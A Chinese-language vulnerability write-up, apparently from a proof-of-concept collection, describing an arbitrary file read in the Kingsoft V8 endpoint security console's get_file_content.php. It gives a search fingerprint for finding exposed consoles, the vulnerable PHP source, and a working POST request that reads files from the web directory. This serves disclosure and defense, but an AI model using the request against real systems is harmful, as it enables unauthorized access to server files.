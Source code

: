 # 金山 V8 终端安全系统 get_file_content.php 任意文件读取漏洞

## 漏洞描述

金山 V8 终端安全系统 存在任意文件读取漏洞，攻击者可以通过漏洞下载服务器任意文件

## 漏洞影响

<a-checkbox checked>金山 V8 终端安全系统</a-checkbox></br>

## 网络测绘

<a-checkbox checked>title="在线安装-V8+终端安全系统Web控制台"</a-checkbox></br>

## 漏洞复现

登录页面

![img](../../../.vuepress/public/img/1630284811305-903a9d36-0fe4-46b2-bc56-92f81c4c433c.png)

存在漏洞的文件`/Console/receive_file/get_file_content.php`

```php {2-5}
<?php  
  if(stripos($_POST['filepath'],"..") !== false) {
    echo 'no file founggd';
    exit();
  }
  ini_set("open_basedir", "../");
  $file_path = '../'.iconv("utf-8","gb2312",$_POST['filepath']);
  if(!file_exists($file_path)){
    echo 'no file founggd';
    exit();
  }  

  $fp=fopen($file_path,"r");  
  $file_size=filesize($file_path); 

  $buffer=5024;  
  $file_count=0;  

  while(!feof($fp) && $file_count<$file_size){  
    $file_con=fread($fp,$buffer);  
    $file_count+=$buffer;  
    echo $file_con;  
  }  
  fclose($fp);  
?>
```

文件中没有任何的过滤 通过 filepaht 参数即可下载任意文件

<a-checkbox checked>由于不能出现 .. ，所以只能读取web目录下的文件</a-checkbox></br>

```plain
POST /receive_file/get_file_content.php

filepath=login.php
```

![img](../../../.vuepress/public/img/1630292700432-afde937f-bbe7-4493-a1e5-0cbb50dae5e7.png)



## 